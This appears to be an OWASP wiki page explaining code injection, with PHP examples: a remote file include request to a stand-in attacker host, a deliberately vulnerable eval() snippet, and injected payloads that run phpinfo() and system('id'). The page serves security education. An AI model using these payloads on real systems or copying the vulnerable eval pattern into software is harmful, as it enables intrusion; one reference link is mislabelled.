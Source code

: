 ```yaml
---
layout: col-sidebar
title: Code Injection
author: Weilin Zhong, Rezos
contributors: OWASP, Thandermax, Csa, KristenS, Wichers, Neil Bergman, Camilo, Andrew Smith, kingthorin
permalink: /attacks/Code_Injection
tags: attack, Code Injection
---
```


{% include writers.html %}

## Description

Code Injection is the general term for attack types which consist of
injecting code that is then interpreted/executed by the application.
This type of attack exploits poor handling of untrusted data. These
types of attacks are usually made possible due to a lack of proper
input/output data validation, for example:

- allowed characters (standard regular expressions classes or custom)
- data format
- amount of expected data

Code Injection differs from [Command
Injection](Command_Injection) in that an attacker is only
limited by the functionality of the injected language itself. If an
attacker is able to inject PHP code into an application and have it
executed, they are only limited by what PHP is capable of. Command
injection consists of leveraging existing code to execute commands,
usually within the context of a shell.

## Risk Factors

- These types of vulnerabilities can range from very hard to find, to easy to find
- If found, are usually moderately hard to exploit, depending of scenario
- If successfully exploited, impact could cover loss of confidentiality, loss of integrity, loss of availability, and/or loss of accountability

## Examples

**Example 1**

If an application passes a parameter sent via a GET request to the PHP
`include()` function with no input validation, the attacker may try to
execute code other than what the developer had in mind.

The URL below passes a page name to the `include()` function.
`http://testsite.com/index.php?page=contact.php`

The file "evilcode.php" may contain, for example, the phpinfo() function
which is useful for gaining information about the configuration of the
environment in which the web service runs. An attacker can ask the
application to execute their PHP code using the following request:
`http://testsite.com/?page=http://evilsite.com/evilcode.php`

**Example 2**

When a developer uses the PHP `eval()` function and passes it untrusted
data that an attacker can modify, code injection could be possible.

The example below shows a dangerous way to use the `eval()` function:

```
$myvar = "varname";
$x = $_GET['arg'];
eval("$myvar = $x;");
```

As there is no input validation, the code above is vulnerable to a Code
Injection attack.

For example: `/index.php?arg=1; phpinfo()`

While exploiting bugs like these, an attacker may want to execute system
commands. In this case, a code injection bug can also be used for
command injection, for example: `/index.php?arg=1; system('id')`

## References

- [CWE-77: Command Injection](http://cwe.mitre.org/data/definitions/77.html)
- [CWE-78: OS Command Injection](http://cwe.mitre.org/data/definitions/78.html)
- [CWE-89: SQL Injection](http://cwe.mitre.org/data/definitions/77.html)

[Category:Injection](https://owasp.org/www-community/Injection_Flaws)
